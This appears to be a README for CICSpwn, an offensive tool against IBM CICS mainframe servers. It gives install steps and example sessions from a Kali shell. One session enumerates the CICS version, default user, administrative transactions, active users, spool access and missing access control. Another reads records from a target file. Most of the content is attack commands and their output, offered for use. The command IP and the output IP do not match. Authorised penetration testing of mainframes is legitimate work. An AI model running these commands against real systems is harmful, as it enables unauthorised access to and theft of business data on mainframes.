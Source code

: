 It is better to install from 
https://github.com/aloksaurabh/py3270
and run setup
and extract 
http://x3270.bgp.nu/download/03.06/wc3270-3.6ga4-noinstall-64.zip
then add to path

## Getting general information
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -i
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting information about CICS server (APPLID: CICS)
	[*] CICS TS Version: 3.2
	[*] CICS default user: CICSUSER
[+] Interesting and available IBM supplied transactions: 
	[*] CEMT
	[*] CEDA
	[*] CECI
	[*] CECS
	[*] CEBR
[+] General system information: 
	[*] Userid: CICSUSER
	[*] Sysid: S650
	[*] LU session name: LCL702
	[*] language: E
	[*] Files HLQ:	CICS650.**
	[*] Library path:	DFH320.CICS.**
[+] Active users
	[*] CICSUSER
	[*] CICSUSER
	[*] CICSUSER
[+] JCL Submission
	[*] Access to the internal spool is apparently available
[+] Access control
	[*] CICS does not use RACF/ACF2/TopSecret. Every user has as much access as the CICS region ID

```
## Read a file
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 --get-file FILEA
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting Attributes of file FILEA
[*] File FILEA is enabled, open, and readable
[*] Record size: 80	keylength:6
' 000100':	START OF DATA
...
```  
Ps: adding --num option fetches only one record
